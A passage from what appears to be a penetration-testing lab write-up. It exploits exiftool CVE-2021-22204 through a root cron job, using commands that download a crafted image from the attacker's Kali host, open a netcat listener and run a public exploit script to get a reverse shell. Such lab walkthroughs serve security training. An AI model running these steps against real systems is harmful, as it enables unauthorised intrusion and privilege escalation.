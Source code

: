 In the Victim Host:

> Note how I downloaded the file as `notbad`. This is because I didn't want it to get picked up by the `exiftool` cron job just yet (I don't have a listener yet and I want to re-use port 80 just in case there is a firewall in place).

```
$ pwd
/var/www/html/subrion/uploads

$ wget -O notbad http://192.168.49.51/image.jpg

$ ls -la | grep notbad
-rw-r--r--  1 www-data www-data  465 Feb 27 01:24 notbad
```

19) Next we set up our listener in Kali and rename the file to have a `.jpg` file extension (and hope it get's picked up by the cron job soon!)

In Kali:

```
??$ nc -vlnp 80
listening on [any] 80 ...
```

In the Victim Host:

```
$ mv notbad notbad.jpg
```

20) Nothing happened after a while. I noticed the cron job script writes results to a readable location, so I went snooping to make sure the file was processed:

<details><summary>most recent output file / log file for the cron job script</summary></details>

So our exploit image was processed... but we didn't get a shell despite knowing for certain that the python reverse shell worked when running it as non-root. The exploit software must've gone wrong. Looks like we'll have to "try harder"...

21) I tried it a couple more times, still to no avail. Strange... the exiftool version is definitely vulnerable, and the exploit code runs without errors and produces a `.jpg`... Time to dig into the code...

Spent about an hour reading and tweaking the code with no results. Will try the top result for "CVE-2021-22204 github" on google --> https://github.com/mr-tuhin/CVE-2021-22204-exiftool

22) I clone the repo, install dependencies as per the README.md there (e.g. first linux packages, then python packages with pip3). I run the program:

```
---(kali?kali)-[~/attempt-2/CVE-2021-22204-exiftool]
--$ python3 exploit.py 192.168.49.51 80

#################################################################
#       Author: Tuhin SG                                        #
#       Date: 2022-02-21                                        #
#       Github: https://github.com/tuhin81                      #
#       Web-site: https://tech-root.epizy.com?pgi=blog&pbgi=1   #
#       OS: Linux system                                        #
#       Vesion: 1.0                                             #
#################################################################
                                                                                                                                                                                                                                                                                       
---(kali?kali)-[~/attempt-2/CVE-2021-22204-exiftool]
--$ ls
README.md  exploit.py  image.jpg  requirements.txt
```
